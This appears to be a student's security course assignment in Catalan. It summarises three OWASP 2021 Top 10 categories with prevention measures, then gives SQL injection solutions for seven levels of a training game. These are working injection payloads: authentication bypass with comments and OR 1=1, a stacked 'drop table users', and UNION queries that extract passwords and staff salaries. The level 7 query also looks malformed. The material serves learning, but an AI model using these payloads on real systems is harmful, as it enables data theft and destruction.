 # T1. PR1. Seguretat i vulnerabilitat

## **1. L’organització OWASP Foundation va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web.**

**1 - A07:2021 – Fallas de Identificación y Autenticación**

Son falles en la confirmacio de la identitat, la autenticacio i en la gestio de sesions dels usuaris.

Permet atacs automatitzats com la reutilització de credencials conegudes, on l'atacant té una llista de parells d'usuari i contrasenya vàlids. 

Exposa l'identificador de sessió a la URL.

Emmagatzema les contrasenyes en text clar, xifrades o utilitzant funcions de hash febles.

Mesures i tecniques per prevencio:

  1. Implementeu un control contra contrasenyes febles, tal com verificar que una nova contrasenya o la utilitzada en el canvi de contrasenya no estigui inclosa a la llista de les 10,000 pitjors contrasenyes.

  2. Quan sigui possible, implementeu l'autenticació multifactor per evitar atacs automatitzats de reutilització de credencials conegudes, força bruta i reús de credencials robades.

  3. Assegureu-vos que el registre, la recuperació de les credencials i l'ús d'APIs no permeten els atacs d'enumeració d'usuaris mitjançant la utilització dels mateixos missatges genèrics a totes les sortides.

**2 - A10:2021 – Falsificación de Solicitudes del Lado del Servidor (SSRF)**

Les falles de SSRF tenen lloc quan una aplicació web està obtenint un recurs remot sense validar l'URL proporcionada per l'usuari. Permet que un atacant coaccioni a l'aplicació perquè enviï una sol·licitud falsificada a una destinació inesperada.

Mesures i tecniques per prevencio:

  1. Segmenteu la funcionalitat d'accés a recursos remots en xarxes separades per reduir l'impacte de SSRF

  2. Feu complir les polítiques de tallafocs "denegar per defecte" o les regles de control d'accés a la xarxa per bloquejar tot el trànsit de la intranet excepte l'essencial.

  3. Deshabiliteu les redireccions HTTP

**3 - A06:2021 – Componentes Vulnerables y Desactualizados**

Els components vulnerables són un problema conegut que és difícil de provar i avaluar el risc. És l'única categoria que no té enumeracions de debilitats comunes (CWE) assignades a les CWE incloses, per la qual cosa es fa servir un pes d'impacte/exploits predeterminat de 5,0.

Si els desenvolupadors de programari no testegen la compatibilitat de les biblioteques actualitzades, actualitzades o pegats.

Si no repara o actualitza la plataforma subjacent, frameworks i dependències de manera oportuna i basada en el risc.

Si el programari és vulnerable, no té suport o no està actualitzat. Això inclou el sistema operatiu, el servidor web/d'aplicacions, el sistema d'administració de bases de dades (DBMS), les aplicacions, les API i tots els components, els entorns d'execució i les biblioteques.

Mesures i tecniques per prevencio:

  1. Elimineu les dependències que no són utilitzades, funcionalitats, components, arxius i documentació innecessaris.

  2. Només obtingueu components de fonts oficials a través d'enllaços segurs. Preferiu els paquets signats per reduir la possibilitat d'incloure un component maliciós modificat

  3. Realitzeu un inventari continu de les versions dels components al client i al servidor (per exemple, frameworks, biblioteques) i les seves dependències utilitzant eines com: versions, OWASP Dependency Check, retire.js, etc.

## **2. Obre el següent enllaç (sql inseckten) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL.**

  1. level 1:
     ```
     SELECT username 
     FROM users 
     WHERE username ='jane' --' AND password ='d41d8cd98f00b204e9800998ecf8427e';
     ```
  2. level 2:
     ```
     SELECT username 
     FROM users 
     WHERE username =''; drop table users;' AND password ='d41d8cd98f00b204e9800998ecf8427e';
     ```
  3. level 3:
     ```
     SELECT username 
     FROM users 
     WHERE username ='' or 1=1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';
     ```
  4. level 4:
     ```
     SELECT username 
     FROM users 
     WHERE username ='' OR 1=1 ORDER BY username LIMIT 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';
     ```
  5. level 5:
     ```
     SELECT product_id, brand, size, price 
     FROM shoes 
     WHERE brand=''; select user_id,username,password,email from users; -';
  6. level 6:
     ```
     SELECT username 
     FROM users 
     WHERE username ='' UNION SELECT s.salary AS staff_salary FROM staff s WHERE s.firstname = 'Greta Maria' -- ' AND password ='d41d8cd98f00b204e9800998ecf8427e';
     ```
  7. level 7:
     ```
     SELECT product_id, brand, size, price 
     FROM shoes 
     WHERE brand='' UNION SELECT name, firstname, email, salary, employed_since FROM staff --';
     ```

[![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/S9WTUTwx)
